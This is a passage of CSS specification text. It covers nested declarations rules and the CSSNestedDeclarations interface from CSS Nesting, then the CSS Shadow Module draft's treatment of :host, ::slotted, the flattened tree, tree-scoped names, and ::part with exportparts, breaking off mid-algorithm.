> In a darkmode page, the `.foo` element would have its text color changed to white, but its `::before` and `::after` pseudos would remain black, because the `&` selector can’t represent pseudo-elements.
>
> However, it was instead written as:
>
> ```css
> .foo, .foo::before, .foo::after {
>   color: black;
>   @media (prefers-color-scheme: dark) {
>     color: white;
>   }
> }
> ```
>
> Then the `color: white` is implicitly wrapped in a nested declarations rule, which is guaranteed to match *exactly* the same as its parent style rule, so the element *and* its pseudo-elements would all have white text in a darkmode page.

> **Example:** Declarations interleaved with rules get implicitly wrapped in a nested declarations rule, which makes them part of a separate style rule. For example, given this CSS:
>
> ```css
> .foo {
>   color: black;
>   @media (...) {...}
>   background: silver;
> }
> ```
>
> If the `.foo` rule’s CSSOM object is examined, its `style` attribute will contain only one declaration: the `color: black` one.
>
> The `background: silver` declaration will instead be found in the implicitly-created nested declarations child rule, at `fooRule.cssRules[1].style`.

### 6. CSSOM {#css-nesting-1:cssom}

> **Note:** [CSSOM-1] now defines that `CSSStyleRule` can have child rules.

When serializing a relative selector in a nested style rule, the selector must be absolutized, with the implied nesting selector inserted.

> **Example:** For example, the selector `> .foo` will serialize as `& > .foo`.

#### 6.1. The `CSSNestedDeclarations` Interface {#css-nesting-1:the-cssnestrule}

The `CSSNestedDeclarations` interface represents a nested declarations rule.

```webidl
[Exposed=Window]
interface CSSNestedDeclarations : CSSRule {
  [SameObject, PutForwards=cssText] readonly attribute CSSStyleProperties style;
};
```

The **`style`** attribute must return a `CSSStyleProperties` object for the rule, with the following properties:

**computed flag**

: Unset

**readonly flag**

: Unset

**declarations**

: The declared declarations in the rule, in specified order.

**parent CSS rule**

: this

**owner node**

: Null

The `CSSNestedDeclarations` rule serializes as if its declaration block had been serialized directly.

> **Note:** This means that multiple adjacent nested declarations rules (which is possible to create with e.g. `insertRule`) will collapse into a single rule when serialized and parsed again.

---

## CSS Shadow Module Level 1 {#css-shadow-1}

- **Shortname:** `css-shadow-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-shadow-1/](https://drafts.csswg.org/css-shadow-1/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-04-28

### 1. Introduction {#css-shadow-1:intro}

Shadow DOM allows authors to separate their page into "components", subtrees of markup whose details are only relevant to the component itself, not the outside page. This reduces the chance of a style meant for one part of the page accidentally over-applying and making a different part of the page look wrong. However, this styling barrier also makes it harder for a page to interact with its components when it actually *wants* to do so.

This specification defines the `::part()` pseudo-element, which allows an author to style specific, purposely exposed elements in a shadow tree from the outside page’s context. In combination with custom properties, which let the outside page pass particular values (such as theme colors) into the component for it to do with as it will, these pseudo-elements allow components and the outside page to interact in safe, powerful ways, maintaining encapsulation without surrendering all control.

The `:host` pseudo-class and its functional counterpart `:host()` match the shadow tree’s shadow host.

Furthermore, the `::slotted` pseudo-element and the related `:has-slotted` pseudo-class provide ways to interact with slots and their assigned shadow tree.

> **Note:** This specification was originally titled CSS Scoping Module Level 1. It has since been merged with CSS Shadow Parts Module Level 1 and renamed to CSS Shadow Module Level 1 to better reflect its comprehensive coverage of Shadow DOM features. The scoped style rules feature initially described in this module has been moved to [css-cascade-6].

### 2. Default Styles for Custom Elements {#css-shadow-1:default-element-styles}

**This section is **experimental**, and is under active discussion. Do not implement without consulting the CSSWG.**

When defining custom elements, one often wants to set up "default" styles for them, akin to the user-agent styles that apply to built-in elements. This is, unfortunately, hard to do in vanilla CSS, due to issues of scoping and specificity—​the element in question might be used in shadow trees, and thus is unreachable by any selector targeting it in the outermost document; and selectors, even low-specificity ones like simple type selectors, can accidentally override author-level styles meant to target the element.

To aid in this, this section defines a way to create a stylesheet of "default element styles" for a given element. This stylesheet applies across the entire document, in all shadow trees, and the rules in it apply at the user-agent origin, so author-level rules automatically win.

`Window`s gain a private slot **`[[defaultElementStylesMap]]`** which is a map of local names to stylesheets.

These stylesheets must apply to every document in the window. They must be interpreted as user agent stylesheets.

> **Note:** This implies, in particular, that they apply to all shadow trees in every document, and that the declarations in them are from the user-agent origin.

For the purpose of the cascade, these stylesheets are ordered after the user agent’s own stylesheets; their relative ordering doesn’t matter as it is not observable.

Within these stylesheets, complex selectors must be treated as invalid. Every compound selector must be treated as containing an additional type selector that selects elements with the local name that the stylesheet is keyed with.

> **Issue:** Do we need to restrict the at-rules that can be used in these sheets? For example, do we allow an `@font-face`? I’m going to leave it as allowed unless/until I hear complaints.

This specification does not define how to add to, remove from, or generally manipulate the `[[defaultElementStylesMap]]`. It is expected that other specifications, such as [DOM], will define ways to do so.

### 3. Shadow Encapsulation {#css-shadow-1:shadow-dom}

#### 3.1. Informative Explanation of Shadow DOM {#css-shadow-1:shadow-gloss}

*The following is a non-normative explanation of several concepts normatively defined in the DOM Standard [DOM], to aid in understanding what this spec defines without having to fully grok the DOM Standard.*

In addition to the qualities of an element tree defined in [Selectors Level 4 § data-model](#selectors-4:data-model), the DOM Standard adds several new concepts related to shadow trees, several of which are relevant to CSS.

An element can host a shadow tree, which is a special kind of document fragment with a shadow root (a non-element node) at its root. Children of the shadow root are ordinary elements and other nodes. The element hosting the shadow tree is its host, or shadow host.

The elements in a shadow tree are not descendants of the shadow host in general (including for the purposes of Selectors like the descendant combinator). However, the shadow tree, when it exists, is used in the construction of the flattened element tree, which CSS uses for all purposes *after* Selectors (including inheritance and box construction).

Loosely, the shadow tree is treated as the shadow host’s contents instead of its normal light tree contents. However, some of its light tree children can be "pulled into" the shadow tree by assigning them to slots. This causes them to be treated as children of the slot for CSS purposes. The slots can then be assigned to slots in deeper shadow trees; luckily, slots themselves don’t generate boxes by default, so you don’t get an unpredictable cascade of `slot` wrapper elements disrupting your CSS.

If nothing is explicitly assigned to a slot, the slot’s own children are instead assigned to it, as a sort of "default" contents.

#### 3.2. Shadow DOM and Selectors {#css-shadow-1:selectors}

##### 3.2.1.  Matching Selectors Against Shadow Trees {#css-shadow-1:selectors-data-model}

When a selector is matched against a shadow tree, the selector match list is initially the shadow host, followed by all children of the shadow tree’s shadow root and their descendants, ordered by a pre-order traversal.

> **Issue:** Rewrite this against the newer call forms of the matching algorithms.

> **Note:** Remember that the descendants of an element are based on the light tree children of the element, which does not include the shadow trees of the element.

When a selector is matched against a tree, its **tree context** is the root of the *root elements* passed to the algorithm. If the tree context is a shadow root, that selector is being matched **in the context of a shadow tree**.

> **Example:** For example, any selector in a stylesheet embedded in or linked from an element in a shadow tree is in the context of a shadow tree. So is the argument to `querySelector()` when called from a shadow root.

Declarations inherit the tree context of the selector that was matched to apply them.

##### 3.2.2.  Selecting Shadow Hosts from within a Shadow Tree {#css-shadow-1:host-element-in-tree}

A shadow host is outside of the shadow tree it hosts, and so would ordinarily be untargettable by any selectors evaluated in the context of the shadow tree (as selectors are limited to a single tree), but it is sometimes useful to be able to style it from inside the shadow tree context.

For the purpose of Selectors, a shadow host also appears in its shadow tree, with the contents of the shadow tree treated as its children. (In other words, the shadow host is treated as replacing the shadow root node.)

When considered within its own shadow trees, the shadow host is featureless. Only the `:host`, `:host()`, and `:host-context()` pseudo-classes are allowed to match it.

> **Note:** Why is the shadow host so weird?
>
> The shadow host lives outside the shadow tree, and its markup is in control of the page author, not the component author.
>
> It would not be very good if a component used a particular class name internally in a shadow tree stylesheet, and the page author using the component accidentally *also* used the same class name and put it on the shadow host. Such a situation would result in accidental styling that is impossible for the component author to predict, and confusing for the page author to debug.
>
> However, there are still some reasonable use-cases for letting a stylesheet in a shadow tree style its shadow host. (For example, the component might want to be laid out as a flexbox, requiring the shadow host to be set to `display: flex`.) So, to allow this situation but prevent accidental styling, the shadow host appears but is completely featureless and unselectable except through `:host` and its related functional forms, which make it very explicit when you’re trying to match against markup provided by the page author.

##### 3.2.3.  Selecting Into the Light: the `:host`, `:host()`, and `:host-context()` pseudo-classes {#css-shadow-1:host-selector}

The **:host** pseudo-class, when evaluated in the context of a shadow tree, matches the shadow tree’s shadow host. In any other context, it matches nothing.

The **:host()** function pseudo-class has the syntax:

```
:host( <compound-selector> )
```

When evaluated in the context of a shadow tree, it matches the shadow tree’s shadow host if the shadow host, in its normal context, matches the selector argument. In any other context, it matches nothing.

The specificity of `:host` is that of a pseudo-class. The specificity of `:host()` is that of a pseudo-class, plus the specificity of its argument.

> **Note:** This is different from the specificity of similar pseudo-classes, like `:is()` or `:not()`, which *only* take the specificity of their argument. This is because `:host` is affirmatively selecting an element all by itself, like a "normal" pseudo-class; it takes a selector argument for syntactic reasons (we can’t say that `:host.foo` matches but `.foo` doesn’t), but is otherwise identical to just using `:host` followed by a selector.

> **Example:** For example, say you had a component with a shadow tree like the following:
>
> ```
> <x-foo class="foo">
>   <"shadow tree">
>     <div class="foo">...</div>
>   </>
> </x-foo>
> ```
>
> For a stylesheet within the shadow tree:
>
> - `:host` matches the `<x-foo>` element.
> - `x-foo` matches nothing.
> - `.foo` matches only the `<div>` element.
> - `.foo:host` matches nothing
> - `:host(.foo)` matches the `<x-foo>` element.

Ordinary, selectors within a shadow tree can’t see elements outside the shadow tree at all. Sometimes, however, it’s useful to select an ancestor that lies somewhere outside the shadow tree, above it in the document.

> **Example:** For example, a group of components can define a handful of color themes they know how to respond to. Page authors could opt into a particular theme by adding a specific class to the components, or higher up in the document.

The **:host-context()** functional pseudo-class tests whether there is an ancestor, outside the shadow tree, which matches a particular selector. Its syntax is:

```css
:host-context( <compound-selector> )
```

When evaluated in the context of a shadow tree, the `:host-context()` pseudo-class matches the shadow host, if the shadow host or one of its shadow-including ancestors matches the provided `<compound-selector>`. In any other context, it matches nothing.

The specificity of `:host-context()` is that of a pseudo-class, plus the specificity of its argument.

> **Note:** This means that the selector pierces through shadow boundaries on the way up, looking for elements that match its argument, until it reaches the document root.

##### 3.2.4.  Selecting Slot-Assigned Content: the `::slotted()` pseudo-element {#css-shadow-1:slotted-pseudo}

The **::slotted()** pseudo-element represents the elements assigned, after flattening, to a slot. This pseudo-element only exists on slots.

The `::slotted()` pseudo-element is an *alias* for other elements in the tree, and does not generate any boxes itself.

The grammar of the `::slotted()` pseudo-element is:

```css
::slotted( <compound-selector> )
```

The `::slotted()` pseudo-element represents the elements that are:

- assigned, after flattening, to the slot that is `::slotted`’s originating element
- matched by its `<compound-selector>` argument

The `::slotted()` pseudo-element can be followed by a tree-abiding pseudo-element, like `::slotted()::before`, representing the appropriate pseudo-element of the elements represented by the `::slotted()` pseudo-element.

The specificity of `::slotted()` is that of a pseudo-element, plus the specificity of its argument.

> **Example:** For example, say you had a component with both children and a shadow tree, like the following:
>
> ```
> <x-foo>
>   <div id="one" slot="foo" class="foo">...</div>
>   <div id="two" slot="foo">...</div>
>   <div id="three" class="foo">
>     <div id="four" slot="foo">...</div>
>   </div>
>   <"shadow tree">
>     <div id="five">...</div>
>     <div id="six">...</div>
>     <slot name="foo"></slot>
>   </"shadow tree">
> </x-foo>
> ```
>
> For a stylesheet within the shadow tree, a selector like `::slotted(*)` selects `#one` and `#two` only, as they’re the elements assigned to the sole `slot` element. It will *not* select `#three` (no `slot` attribute) nor `#four` (only direct children of a shadow host can be assigned to a slot).
>
> A selector like `::slotted(.foo)`, on the other hand, will only select `#one`, as it matches `.foo`, but `#two` doesn’t.
>
> > **Note:** Note that a selector like `::slotted(*)` is equivalent to `*::slotted(*)`, where the `*` selects many more elements than just the `slot` element. However, since only the `slot` elements are slots, they’re the only elements with a `::slotted()` pseudo-element as well.

> **Note:** `::slotted()` can only represent the *elements* assigned to the slot. Slots can also be assigned text nodes, which can’t be selected by `::slotted()`. The only way to style assigned text nodes is by styling the slot and relying on inheritance.

##### 3.2.5.  Matching on the Presence of Slot-Assigned Nodes: the `:has-slotted` pseudo-class {#css-shadow-1:the-has-slotted-pseudo}

The **:has-slotted** pseudo-class matches `slot` elements which have a non-empty list of flattened slotted nodes.

When `:has-slotted` matches a slot with fallback content, we can conclude that the fallback content is *not* being displayed.

> **Note:** Even a single whitespace text node is sufficient to make `:has-slotted`' apply. This is by design, so that the behavior of this pseudo-class is consistent with the behavior of the `assignedNodes()` method. A future version of this specification is expected to introduce a way to exclude this case from matching.

> **Note:** It is expected that a future version of this specification will introduce a functional `:has-slotted()` pseudo-class that allows more fine-grained matching by accepting a selector argument. `:has-slotted` is *not* an alias of `:has-slotted(*)`, as the latter would not match slotted text nodes, but `:has-slotted` does.

### 4. Shadow Trees and the Cascade {#css-shadow-1:shadow-cascading}

See [CSS Cascading 4 § 6.1 Cascade Sorting Order](#css-cascade-5:cascade-sort).

#### 4.1.  Flattening the DOM into an Element Tree {#css-shadow-1:flattening}

While Selectors operates on the DOM tree as the host language presents it, with separate trees that are unreachable via the standard parent/child relationship, the rest of CSS needs a single unified tree structure to work with. This is called the **flattened element tree** (or flat tree), and is constructed as follows:

1. Let *pending nodes* be a list of DOM nodes with associated parents, initially containing just the document’s root element with no associated parent.
2. Repeatedly execute the following substeps until *pending nodes* is empty:

  1. Pop the first element from *pending nodes*, and assign it to *pending node*.
  2. Insert *pending node* into the flat tree as a child of its associated parent. (If it has no associated parent, it’s the document root—​just insert it into the flat tree as its root.)
  3. Perform one of the following, whichever is the first that matches:

     ***pending node* is a shadow host**

     : Append the child nodes of the shadow root of the shadow tree it hosts to *pending nodes*, with *pending node* as their associated parent.

     ***pending node* is a slot**

     : Find slottables for *pending node*, and append them to *pending nodes*, with *pending node* as their associated parent.

  If no slottables were found for *pending node*, instead append its children to *pending nodes*, with *pending node* as their associated parent.

     **Otherwise,**

     : Append the child nodes of *pending node*’s light tree to *pending nodes*, with *pending node* as their associated parent.

> **Note:** In other words, the flat tree is the top-level DOM tree, but shadow hosts are filled with their shadow tree children instead of their light tree children (and this proceeds recursively if the shadow tree contains any shadow hosts), and slots get filled with the nodes that are assigned to them (and this proceeds recursively if the slots are themselves assigned to a slot in a deeper shadow tree).

> **Issue:** A non-obvious result of this is that elements assigned to a slot inherit from that slot, not their light-tree parent or any deeper slots their slot gets assigned to. This means that text nodes are styled by the shadow tree of their parent, with nobody else capable of intervening in any way. Do we want an additional pseudo-element for targeting those text nodes so they can be styled at all slot-assignment levels, like normal elements can be? This implies it needs to work for text nodes in the light tree before they’re assigned downwards, so this can’t just be a `::slotted()` variant. Luckily, this is a long-standing request!

##### 4.1.1.  Slots and Slotted Elements in a Shadow Tree {#css-shadow-1:slots-in-shadow-tree}

Slots must act as if they were assigned `display: contents` via a rule in the UA origin. This must be possible to override via `display`, so they *do* generate boxes if desired.

> **Note:** A non-obvious result of assigning elements to slots is that they inherit from the slot they’re assigned to. Their original light tree parent, and any deeper slots that their slot gets assigned to, don’t affect inheritance.

#### 4.2.  Name-Defining Constructs and Inheritance {#css-shadow-1:shadow-names}

Shadow trees are meant to be an encapsulation boundary, allowing independent authors to share code without accidentally polluting each other’s namespaces. For example, element IDs, which are generally meant to be unique within a document, can be validly used multiple times as long as each use is in a different shadow tree.

Similarly, several at-rules in CSS, such as `@keyframes` or `@font-face`, define a name that later at-rules or properties can refer to them by. Like IDs, these names are globally exposed and unique within a document; also like IDs, this restriction is now loosened to being unique within a given shadow tree.

However, property inheritance can carry values from one tree to another, which complicates referencing the correct definition of a given name. Done naively, this can produce surprising and confusing results for authors. This section defines a set of concepts to use in defining and referencing "global" names in a way that respects encapsulation and doesn’t give surprising results.

If an at-rule or property defines a name that other CSS constructs can refer to it by, such as a `@font-face` `font-family` name or an `anchor-scope` name, it must be defined as a **tree-scoped name**. Tree-scoped names are associated with the root of the element hosting the stylesheet that the at-rule or property is declared in.

Additionally, tree-scoped names can be **loosely matched** or **strictly matched**, defaulting to loosely matched unless otherwise specified. A loosely matched tree-scoped name can be matched by tree-scoped references (see below) in the same tree or descendant trees, while a strictly matched tree-scoped name can only be matched by tree-scoped references in the exact same tree.

Properties or descriptors that reference a tree-scoped name, such as the `font-family` or `animation-name` properties, must define their value as a **tree-scoped reference**. These references implicitly capture a node tree root along with their specified value: unless otherwise specified, the root of the element hosting the stylesheet that the property or descriptor is declared in. This root reference stays with the tree-scoped reference as it is inherited.

If a tree-scoped name is **global** (such as `@font-face` names), then when a tree-scoped reference is dereferenced to find it, first search only the tree-scoped names associated with the same root as the tree-scoped reference. If no relevant tree-scoped name is found, and the root is a shadow root, then repeat this search in the root’s host’s node tree (recursively). (In other words, global tree-scoped names “inherit” into descendant shadow trees, so long as they don’t define the same name themselves.)

If a tree-scoped name is **local** to an element (such as `anchor-name` or `anchor-scope` values), then whether a tree-scoped reference matches the tree-scoped name on a given element depends on whether the tree-scoped name is strictly or loosely matched. A strictly matched tree-scoped name only matches if both names are associated with the same tree. A loosely matched tree-scoped name also matches if the tree-scoped name is associated with an ancestor tree.

If two tree-scoped names are directly compared (for example, when comparing computed values), they are considered to match only if their identifiers match, *and* their roots match exactly. (If one has a root that’s an ancestor of the other, for example, they *do not* match.)

> **Issue:** TODO: Fix all the at-rules that define global names, and the properties that reference them, to use these concepts.
>
> Global names include:
>
> - `@font-face`, referenced by `font-family`
> - `@font-feature-values`, referenced by `font-family`
> - `@keyframes`, referenced by `animation-name`
> - `@counter-style`, referenced by `list-style-type`
> - `@color-profile`, referenced by the `color()` function
> - `@font-palette-values`, referenced by `font-palette`
> - others?

> **Example:** For example, given the following document (using the imaginary <::shadow></::shadow> markup to indicate an element’s shadow tree):
>
> ```
> <p class=outer>Here's some text in the outer document's "foo" font.
> <style>
>   @font-face {
>     font-family: foo;
>     src: url(https://example.com/outer.woff);
>   }
>   body { font-family: foo; }
>   my-component::part(text) { font-family: foo; }
> </style>
>
> <my-component>
>   <::shadow>
>     <p class=inner-default>I'm inheriting the outer document's font-family.
>     <p class=inner-styled>And I'm explicitly styled to be in the component's "foo" font.
>     <p class=part-styled part=text>
>       I'm explicitly styled by the outer document,
>       and get the outer document's "foo" font.
>     <style>
>       @font-face {
>         font-family: foo;
>         src: url(https://example.com/inner.woff);
>       }
>       .inner-styled { font-family: foo; }
>     </style>
>   </::shadow>
> </my-component>
> ```
>
> The `.outer` element references the outer `@font-face`, using the "outer.woff" file.
>
> The `.inner-default` element inherits the `font-family: foo` value from the outer document, using the same tree-scoped reference as `.outer`, and thus also uses the "outer.woff" font file.
>
> The `.inner-style` element, on the other hand, receives a `font-family: foo` from the stylesheet inside the shadow, and thus its tree-scoped reference refers to the shadow’s `@font-family`, and it uses the "inner.woff" file.
>
> The `.part-styled` element also receives its style from the outer document, tho by being directly set rather than by inheritance. Thus, its tree-scoped reference also refer’s to the outer document, and it uses the "outer.woff" file.

> **Example:** Here is a more complex example, showing three levels of trees, and illustrating precisely how tree-scoped names and tree-scoped references inherit.
>
> ```
> <style>
>   @font-face {
>     font-family: foo;
>     src: url(https://example.com/outer.woff);
>   }
>   body { font-family: foo; }
> </style>
>
> <child-component>
>   <::shadow>
>     <style>
>       @font-face {
>         font-family: foo;
>         src: url(https://example.com/inner.woff);
>       }
>     </style>
>
>     <grandchild-component>
>       <::shadow>
>         <p class=inner-default>
>           I'm inheriting the outer document's "foo" font.
>         </p>
>         <p class=inner-search>
>           And I can't find a local "foo" font,
>           so I'm searching further up the tree,
>           and find the shadow's "foo" font.
>         </p>
>         <style>
>         .inner-search { font-family: foo; }
>         </style>
>       </::shadow>
>     </grandchild-component>
>   </::shadow>
> </child-component>
> ```
>
> Here, just as in the previous example, `.inner-default` is inheriting the `font-family: foo` declared in the outer document, and so it ends up referencing the outer document’s `@font-face`, and is rendered with the "outer.woff" file.
>
> On the other hand, `.inner-search` receives its style from a stylesheet in `<grandchild-component>`’s shadow tree, so it attempts to find a `@font-face` defining a `foo` font in that tree. There is no such `@font-face`, so it starts walking up the shadow trees, finding an appropriate `@font-face` in `<child-component>`, so it’s rendered with the "inner.woff" file.

##### 4.2.1.  Serialized Tree-Scoped References {#css-shadow-1:shadow-names-serialization}

If a tree-scoped reference is serialized, it serializes only its value; the associated root is lost.

> **Example:** This implies that `el.style.foo = getComputedStyle(el).foo;` is not necessarily a no-op, like it typically was before shadow trees existed.
>
> For example, given the following document (using the imaginary <::shadow></::shadow> markup to indicate an element’s shadow tree):
>
> ```
> <p class=outer>Here's some text in the outer document's "foo" font.
> <style>
>   @font-face {
>     font-family: foo;
>     src: url(foo.woff);
>   }
>   body { font-family: foo; }
> </style>
>
> <my-component>
>   <::shadow>
>     <p class=inner-default>I'm inheriting the outer document's font-family.
>     <p class=inner-styled>And I'm explicitly styled to be in the component's "foo" font.
>     <style>
>       @font-face {
>         font-family: foo;
>         src: url(https://example.com/foo.woff);
>       }
>       .inner-styled { font-family: foo; }
>     </style>
>     <script>
>       const innerDefault = document.querySelector('.inner-default');
>       const innerStyled = document.querySelector('.inner-styled');
>       const defaultFont = getComputedStyle(innerDefault).fontFamily;
>       const styledFont = getComputedStyle(innerStyled).fontFamily;
>
>       console.log(defaultFont == styledFont); // true!
>     </script>
>   </::shadow>
> </my-component>
> ```
>
> The `.outer` element is styled with the outer document’s "foo" `@font-face`. The `.inner-default` element inherits `font-family` from the outer document, meaning it inherits a tree-scoped reference referencing that outer document, and so it’s in the same font as `.outer`.
>
> Meanwhile, `.inner-styled` is explicitly styled from inside the shadow root, so it receives a fresh tree-scoped reference referencing its shadow tree, and it is instead styled the shadow’s own "foo" `@font-face`.
>
> Despite that, the script running inside the component sees the two elements as having the same value for `font-family`, because the root-reference part of a tree-scoped reference is not preserved by serialization. If it were to set `innerDefault.style.fontFamily = defaultFont;` (thus setting the `font-family` property of the element’s attribute stylesheet, which lives in the shadow tree), the `.inner-default` element would suddenly switch to the same font as `.inner-styled`!

> **Note:** The [css-typed-om-1] is expected to reflect the root reference of a tree-scoped reference in its reification rules for values, allowing authors to tell what node tree the reference is taking its values from, and allowing values to be transported across node trees without changing their meaning.

### 5. Exposing a Shadow Element {#css-shadow-1:exposing}

Elements in a shadow tree may be exported for styling by stylesheets outside the tree using the part and exportparts attributes.

Each element has a **part name list** which is an ordered set of tokens.

Each element has a **forwarded part name list** which is a list of tuples containing a string for the inner part being forwarded and a string giving the name it will be exposed as.

Each shadow root can be thought of as having a **part element map** with keys that are strings and values that are ordered sets of elements.

The part element map is described only as part of the algorithm for calculating style in this spec. It is not exposed via the DOM, as calculating it may be expensive and exposing it could allow access to elements inside closed shadow roots.

Part element maps are affected by the addition and removal of elements and changes to the part name lists and forwarded part name lists of elements in the DOM.

To **calculate the part element map** of a shadow root, *outerRoot*:

1. For each descendant *el* within *outerRoot*:

  1. For each *name* in *el*’s part name list, append *el* to *outerRoot*’s part element map[*name*].
  2. If *el* is a shadow host itself then let *innerRoot* be its shadow root.
  3. Calculate *innerRoot*’s part element map.
  4. For each *innerName*/*outerName* in *el*’s forwarded part name list:

    1. If *innerName* is an ident:

      1. Let *innerParts* be *innerRoot*’s part element map[*innerName*]
      2. Append the elements in *innerParts* to *outerRoot*’s part element map[*outerName*]
    2. If *innerName* is a pseudo-element name:

      1. Append *innerRoot*’s pseudo-element(s) with that name to *outerRoot*’s part element map[*outerName*].

#### 5.1. Motivation {#css-shadow-1:motivation}

For custom elements to be fully useful and as capable as built-in elements it should be possible for parts of them to be styled from outside. Exactly what can be styled from outside should be controlled by the element author. Also, it should be possible for a custom element to present a stable "API" for styling. That is, the selector used to style a part of a custom element should not expose or require knowledge of the internal details of the element. The custom element author should be able to change the internal details of the element while leaving the selectors untouched.

The previous proposed method for styling inside the shadow tree, the >>> combinator, turned out to be *too powerful* for its own good; it exposed too much of a component’s internal structure to scrutiny, defeating some of the encapsulation benefits that using Shadow DOM brings. For this, and other performance-related reasons, the >>> combinator was eventually dropped.

This left us with using custom properties as the only way to style into a shadow tree: the component would advertise that it uses certain custom properties to style its internals, and the outer page could then set those properties as it wished on the shadow host, letting inheritance push the values down to where they were needed. This works very well for many simple theming use-cases.

However, there are some cases where this falls down. If a component wishes to allow arbitrary styling of something in its shadow tree, the only way to do so is to define hundreds of custom properties (one per CSS property they wish to allow control of), which is obviously ridiculous for both usability and performance reasons. The situation is compounded if authors wish to style the component differently based on pseudo-classes like `:hover`; the component needs to duplicate the custom properties used for each pseudo-class (and each combination, like `:hover:focus`, resulting in a combinatorial explosion). This makes the usability and performance problems even worse.

We introduce `::part()` to handle this case much more elegantly and performantly. Rather than bundling everything into custom property names, the functionality lives in selectors and style rule syntax, like it’s meant to. This is far more usable for both component authors and component users, should have much better performance, and allows for better encapsulation/API surface.

It’s important to note that `::part()` offers *absolutely zero new theoretical power*. It is not a rehash of the `>>>` combinator, it is simply a more convenient and consistent syntax for something authors can already do with custom properties. By separating out the explicitly "published" parts of an element (the part element map) from the sub-parts that it merely happens to contain, it also helps with encapsulation, as authors can use `::part()` without fear of accidental over-styling.

#### 5.2. Naming a Shadow Element: the `part` attribute {#css-shadow-1:part-attr}

Any element in a shadow tree can have a **`part`** attribute. This is used to expose the element outside of the shadow tree.

The part attribute is parsed as a space-separated list of tokens representing the part names of this element.

> **Note:** It’s okay to give a part multiple names. The "part name" should be considered similar to a class, not an id or tagname.

```
<style>
  c-e::part(textspan) { color: red; }
</style>

<template id="c-e-template">
  <span part="textspan">This text will be red</span>
</template>
<c-e></c-e>
<script>
  // Add template as custom element c-e
  ...
</script>
```

#### 5.3. Forwarding a Shadow Element: the `exportparts` attribute {#css-shadow-1:exportparts-attr}

Any element in a shadow tree can have a **`exportparts`** attribute. If the element is a shadow host, this is used to allow styling of parts from hosts inside the shadow tree by rules outside this the shadow tree (as if they were elements in the same tree as the host, named by a part attribute).

The exportparts attribute is parsed as a comma-separated list of part mappings. Each part mapping is one of:

**`innerIdent : outerIdent`**

: Adds `innerIdent`/`outerIdent` to el’s forwarded part name list.

**`ident`**

: Adds `ident`/`ident` to el’s forwarded part name list.

  > **Note:** This is shorthand for `ident : ident`.

**`::ident : outerIdent`**

: If `::ident` is the name of a fully styleable pseudo-element, adds `::ident`/`outerIdent` to el’s forward part name list. Otherwise, does nothing.

**anything else**

: Ignored for error-recovery / future compatibility.

> **Note:** It’s okay to map a sub-part to several names.

```
<style>
  c-e::part(textspan) { color: red; }
</style>

<template id="c-e-outer-template">
  <c-e-inner exportparts="innerspan: textspan"></c-e-inner>
</template>

<template id="c-e-inner-template">
  <span part="innerspan">
    This text will be red because the containing shadow
    host forwards innerspan to the document as "textspan"
    and the document style matches it.
  </span>
  <span part="textspan">
    This text will not be red because textspan in the document style
    cannot match against the part inside the inner custom element
    if it is not forwarded.
  </span>
</template>

<c-e></c-e>
<script>
  // Add template as custom elements c-e-inner, c-e-outer
  ...
</script>
```

> **Example:** For example, a fully styleable pseudo-element can be used in the `exportparts` attribute, to masquerade as a `::part()` for the component it’s in:
>
> ```
> <template id=custom-element-template>
>   <p exportparts="::before : preceding-text, ::after : following-text">
>     Main text.
> </template>
> ```
>
> An element using that template can use a selector like `x-component::part(preceding-text)` to target the `p::before` pseudo-element in its shadow, so users of the component don’t need to know that the preceding text is implemented as a pseudo-element.

#### 5.4. Selecting a Shadow Element: the `::part()` pseudo-element {#css-shadow-1:part}

The **::part()** pseudo-element allows you to select elements that have been exposed via a `part` attribute. The syntax is:

```css
::part() = ::part( <ident>+ )
```

The `::part()` pseudo-element only matches anything when the originating element is a shadow host.

> **Example:** For example, if you have a custom button that contains a "label" element that is exposed for styling (via `part="label"`), you can select it with `x-button::part(label)`.

> **Example:** Part names act similarly to classes: multiple elements can have the same part name, and a single element can have multiple part names.
>
> A tabstrip control might have multiple elements with `part="tab"`, all of which are selected by `::part(tab)`.
>
> If a single tab is active at a time, it can be specially indicated with `part="tab active"` and then selected by `::part(tab active)` (or `::part(active tab)`, as order doesn’t matter).

The `::part()` pseudo-element is a fully styleable pseudo-element. If the originating element’s shadow root’s part element map contains the specified `<ident>`, `::part()` represents the elements keyed to that ident; if multiple idents are provided and the part element map contains them all, it represents the intersection of the elements keyed to each ident. Otherwise, it matches nothing.

`::part()` pseudo-elements inherit according to their position in the originating element’s shadow tree.

> **Example:** For example, `x-panel::part(confirm-button)::part(label)` never matches anything. This is because doing so would expose more structural information than is intended.
>
> If the `<x-panel>`’s internal confirm button had used something like `part="label => confirm-label"` to forward the button’s internal parts up into the panel’s own part element map, then a selector like `x-panel::part(confirm-label)` would select just the one button’s label, ignoring any other labels.

#### 5.5. Extensions to the `Element` Interface {#css-shadow-1:idl}

```webidl
partial interface Element {
  [SameObject, PutForwards=value] readonly attribute DOMTokenList part;
};
```

The part attribute’s getter must return a DOMTokenList object whose associated element is the context object and whose associated attribute’s local name is part. The token set of this particular DOMTokenList object are also known as the element’s parts.

> **Issue:** Define this as a superglobal in the DOM spec. [[w3c/csswg-drafts Issue #3424]](https://github.com/w3c/csswg-drafts/issues/3424)

#### 5.6. Microsyntaxes for parsing {#css-shadow-1:parsing}

##### 5.6.1.  Rules for parsing part mappings {#css-shadow-1:parsing-mapping}

A **valid part mapping** is a tuple of tokens separated by a U+003A COLON character and any number of space characters before or after the U+003A COLON The tokens must not contain U+003A COLON or U+002C COMMA characters.

The rules for parsing a part mapping are as follows:

1. Let *input* be the string being parsed.
2. Let *position* be a pointer into *input*, initially pointing at the start of the string.
3. Collect a sequence of code points that are space characters
4. Collect a sequence of code points that are not space characters or U+003A COLON characters, and let *first token* be the result.
5. If *first token* is empty then return error.
6. Collect a sequence of code points that are space characters.
7. If the end of the *input* has been reached, return the tuple (*first token*, *first token*)
8. If character at *position* is not a U+003A COLON character, return error.
9. Consume the U+003A COLON character.
10. Collect a sequence of code points that are space characters.
11. Collect a sequence of code points that are not space characters or U+003A COLON characters. and let *second token* be the result.
12. If *second token* is empty then return error.
13. Collect a sequence of code points that are space characters.
14. If *position* is not past the end of *input* then return error.
15. Return the tuple (*first token*, *second token*).

##### 5.6.2.  Rules for parsing a list of part mappings {#css-shadow-1:parsing-mapping-list}

A **valid list of part mappings** is a number of valid part mappings separated by a U+002C COMMA character and any number of space characters before or after the U+002C COMMA

The rules for parsing a list of part mappings are as follow:

1. Let *input* be the string being parsed.
